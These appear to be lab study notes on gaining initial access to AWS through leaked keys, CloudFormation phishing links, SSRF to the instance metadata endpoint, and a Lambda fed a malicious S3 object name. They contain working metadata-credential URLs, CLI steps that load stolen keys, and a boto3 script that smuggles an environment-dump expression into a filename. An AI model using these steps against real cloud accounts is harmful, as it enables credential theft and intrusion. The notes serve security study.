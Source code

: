 # AWS IAM Initial Access
- There are four popluar techniques to gain initial access:
	- Leaked Credentials
	- Phishing for Stacksets
	- SSRF to IMDS Instance Profile Credentials
	- Vulnerable Automation

## Leaked Credentials
- Common sources where we can find credentials: Github repositories and Programming Language Package repositories (PyPi)
- A lot of developers do not follow best practices: leave credentials in the source code, forget to remove credentials from repositories, etc.

## Phishing for Stacksets
- AWS CloudFormation has LaunchStack feature, which allows users to deploy IaC with a few clicks
- The URL looks like this
```bash
https://console.aws.amazon.com/cloudformation/home?region=$REGION#/stacks/new?stackName=$STACK_NAME&templateURL=$TEMPLATE_LOCATION
```
- Attackers can craft a phishing link to trick an admin to click and deploy resources in their systems.
- This attack is hard due to a few conditions to be met:
1. The victim must have appropriate permissions in AWS
2. It is very hard to trick an administrator to click the link without examining what the template is (unless the admin has no knowledge of the code or trusted the senders)
3. When resources are deployed, iam privileges are subjected to assertion -> which may raise red flags in the system.

## SSRF to IMDS abuse 
- IMDS (Instance Meta Data Service) is used to display information about 
an EC2 instance. TO retrieve a directory list of informaiton of an EC2, 
run: 

```bash 
curl http://169.254.169.254/latest/meta-data/
``` 

- Assume a web application is vulnerable to SSRF, attackers can leverage the 
attack to retrieve the information of the AWS system. In an input form, enter the following URL to retrieve an Instance Profile credentials:

```bash
http://169.254.169.254/latest/meta-data/iam/security-credentials
```

- Retrieve the credentials of the role

```bash
https://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME
```

- Once we get the credentials, configure the account in the Attacking Machine

```bash
aws configure set aws_access_key_id $ACCESS_KEY_ID --profile THM
aws configure set aws_secret_access_key $SECRET_ACCESS_KEY --profile THM
aws configure set aws_session_token $SESSION_TOKEN --profile THM
```

## Abusing "DevOps" Infrastructure
- Assume there is a Lambda function that execute whatever script uploaded to S3 bucket. We can take advantage of this to upload malicious code so the Lambda function execute.
- Enumerate S3 bucket
```bash
aws s3 ls
```

- Upload the file
```bash
aws s3 cp test.txt s3://$ACCOUNT_ID
```

- Confirm the file is uploaded
```bash
aws s3 ls $ACCOUNT_ID
```

- [Lambda Request Context](https://docs.aws.amazon.com/lambda/latest/dg/python-context.html) provides the information related to teh Execution Environment where the serverless function runs in AWS. Like EC2 Instace Profile, we can also provision a Lambda "Execution Role", which gives the Lambda function permissions in AWS, against AWS services based on the permissions provisioned to the role.

- To gain credentials, use the following script

```python
#!/usr/bin/env python3
import boto3
import time

# Request user profile
profile = input(f'Please enter your current AWS Profile: ')
if profile != None:
    session = boto3.session.Session(profile_name=profile)
    s3 = boto3.client('s3')
else:
    session = boto3.session.Session(profile_name="default")
    s3 = boto3.client('s3')

# Use 
bucket_name = session.client('sts').get_caller_identity().get('Account')
real_bucket_name = bucket_name + "-2"
filename = 'dict(os.environ)'

# Create object that represents s3resource access.
s3resource = session.resource('s3')
my_bucket = s3resource.Bucket(real_bucket_name)

# Upload empty files with malicious filenames to s3 bucket
response = s3.put_object(Bucket=real_bucket_name, Key=filename, Body='This is a test file.')
time.sleep(5)

# Retrieve the files in your s3 bucket (note: the files ending in .log are the returned files from the automation)
# Retrieve the files in your s3 bucket
for obj in my_bucket.objects.all():
    s3.get_object(Bucket=real_bucket_name, Key=obj.key)
    s3_url = f"s3://{obj.bucket_name}/{obj.key}"
    print('\n', s3_url, '\n')
```

- When the script runs, a log file will be created and stored in S3.
```bash
aws s3 cp s3://{timestamped_url} .
```
